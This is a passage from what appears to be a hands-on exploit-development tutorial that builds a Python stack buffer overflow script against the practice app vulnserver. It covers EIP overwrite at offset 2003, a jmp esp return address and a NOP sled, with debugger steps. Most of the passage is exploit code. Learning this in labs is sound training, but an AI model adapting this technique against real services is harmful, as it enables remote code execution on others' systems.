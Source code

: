 ```python
s.send(payload) # 9 - send the payload. 1st RUN HERE.
s.close()


# Restartthe app, then run the script. Now the ESP value becomes CCCCC... just as explained in line 18 step 13. And the EIP value is BBBB.
# We hav full control over the program!.


# Restart program, run it, ctrl+g, enter the <opied memory address value>, f2 to set a breakpoint there. Run the script... we get a notification at the bottom (breakpoint at location .....), f7 to step into (you will notice that we are now executing code off of the stack all inside of our ESP or C buffer) ie We successfully jumped to a location that we can control.
```
{% endcode %}

## Step 5 - NOP\_sled

Since we dont have any bad characters, we can actually remove it from our code.

We want to add some "nops"&#x20;

```python
nop_sled = b"\x90" * 16 
```

Our python code now looks like this...

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/python
import socket
import struct # 11 - import struct.

# 1 - we establish a connection to the victim pc.
s = socket.socket()
s.connect(("$ip", 9999))

total_length = 2984 # 2 - we will be working with this value.
offset = 2003 # 6 - this is our Offset point/value.
new_eip = struct.pack("<I", <our copied memory address value>) # 14 - this becomes the new EIP value, which executes what the ESP says. We can test this by setting a breakpoint in the debugger (this is our jmp esp instruction).
nop_sled = b"\x90" * 16 # 15 - defining some nops.

# 3 - we use a list to orderly arrange each parts of our payload.
# 4 - in python3, when we are communicating with a socket, we have to send all the data in bytes ie, <b"">
payload = [
    b"TRUN /.:/", # 5 - copy the exact value used by .spk script (in the 2nd Panel).
    b"A" * offset, # 10 - sends exactly 2003 A's to the vulnserver app.
    new_eip, # 12 - the new EIP value prints exactly after the 2003 A's, which means we have used up 2003 + 4 out of 2984bytes.
    nop_sled, # 13 - pass in the nop value.
    b"C" * (total_length - offset - len(new_eip) - len(nop_sled)) # 16 - we can run the script and set a breakpoint at the copied memory address value, and we see the nop showing up after the breakpoint which we can fill with our shell code.
    
]
# 7 - putting together our payload/
payload = b"".join(payload) # 8 - joinging the payload with a byte string.

s.send(payload) # 9 - send the payload. 1st RUN HERE.
s.close()

```